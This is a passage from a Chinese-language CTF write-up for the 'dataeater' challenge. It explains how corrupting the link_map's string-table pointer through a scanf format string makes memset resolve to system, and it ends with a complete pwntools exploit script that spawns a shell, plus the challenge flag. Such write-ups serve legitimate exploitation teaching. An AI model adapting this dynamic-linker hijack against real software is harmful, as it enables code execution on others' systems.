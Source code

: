經過 `scanf()` 篡改後：

```shell
pwndbg> p *(struct link_map *)0x155555555190
$12 = {
  l_addr = 0,
  l_name = 0x0,
  l_ld = 0x0,
  l_next = 0x0,
  l_prev = 0x0,
  l_real = 0x0,
  l_ns = 0,
  l_libname = 0x0,
  l_info = {0x0, 0x0, 0x0, 0x0, 0x0, 0x601080 <buf>, ...},
  l_phdr = 0x400040,
  l_entry = 4195680,
  ...
```

此時 `buf` 的 0 ~ 7 對應到 `Elf64_Dyn->d_tag`，此 member 只有在一開始 dl 時才會用到，因此雖然放了一個不合法的 type `/bin/sh\x00`，不過不會出現問題；`buf` 的 8 ~ f 對應到 `Elf64_Dyn->d_ptr`，存放著指向 string table 的 pointer，因為我們可以控制這塊記憶體的，因此我們也能控制 strtab 的 pointer，讓 `memset()` symbol 對應到的 string 最後能指向我們控制到的 `system` 字串即可。最後 exploit 如下：

```python
#!/usr/bin/python3

from pwn import *
import sys

# dice{1nfin1t3_f1v3_lin3_ch4lls_f46297a09e671c6a}
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

if len(sys.argv) > 1:
    r = remote('mc.ax', 31869)
else:
    r = process('./dataeater', aslr=False)

elf = ELF('./dataeater')
buf = 0x0601080
strtab = elf.section('.dynstr')
strtab_addr = 0x400380
new_strtab_addr = buf
sym__st_name_memset = elf.section('.dynstr').index(b'memset\x00') # 55, 0x37
link_map_off_in_stack = 32

r.sendline(f'%s%{link_map_off_in_stack}$s')
buf_data = b'/bin/sh\x00' + p64(buf - sym__st_name_memset + 0x10) + b'system\x00'
link_map_data = p64(0)*13 + p64(elf.sym['buf'])[:-1]
r.sendline(buf_data + b' ' + link_map_data)

r.interactive()
```

